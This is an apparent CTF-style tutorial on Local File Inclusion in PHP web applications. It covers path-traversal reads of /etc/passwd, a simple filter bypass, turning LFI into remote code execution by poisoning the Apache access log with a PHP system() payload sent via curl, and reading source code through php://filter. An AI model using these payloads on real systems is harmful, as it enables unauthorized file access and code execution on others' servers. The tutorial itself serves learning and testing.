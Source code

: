 title: (L)ocal (F)ile (I)nclusion

# LFI

LFI or Local File Inclusion exploits errors in web application design where user input can manipulate the request to read files from the local file system that the user running web server can access.

This can done by finding request parameters like `?path=mypage.php` or `?page=mypage.php` and replacing `mypage.php` with something else such as `../../../../../../../../etc/passwd` 

![](lfi1.png)

Sometimes `../..` is filter, but we can use `..//..` to bypass a basic filter.

## LFI 2 RCE
A frequent use of LFI is to gain (R)emote (C)ode (E)xecution on the remote host. The most frequently used one within *CTF's* is using the `apache access log`. 

This can be done by modifying the `User Agent String` to `<? system($_GET[cmd]) ?>` to get this into the log file, I normally use `curl`

```
curl -A '<?php system($_GET[cmd]) ?>' http://{SERVER}
```

Once this is in the file we can the use the `?cmd=` parameter to run commands

![](lfi2.png)

## PHP Filter

We can use `php://filter/convert.base64-encode/resource=` to in our LFI to get the raw PHP script to enable us to look at the source code to find more vulnerabilities. We use the `convert.base64-encode` to encode the source code otherwise the webserver will try to interpret it.

![](lfi3.png)

We can then run the `base64` encoded string through either [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)) or use the command line.

```
╰─⠠⠵ echo -n "PD9waHAgICAKICAgICAgIGluY2x1ZGUoJF9HRVRbcGFnZV0pOwo/Pgo=" | base64 -d
<?php   
       include($_GET[page]);
?>
```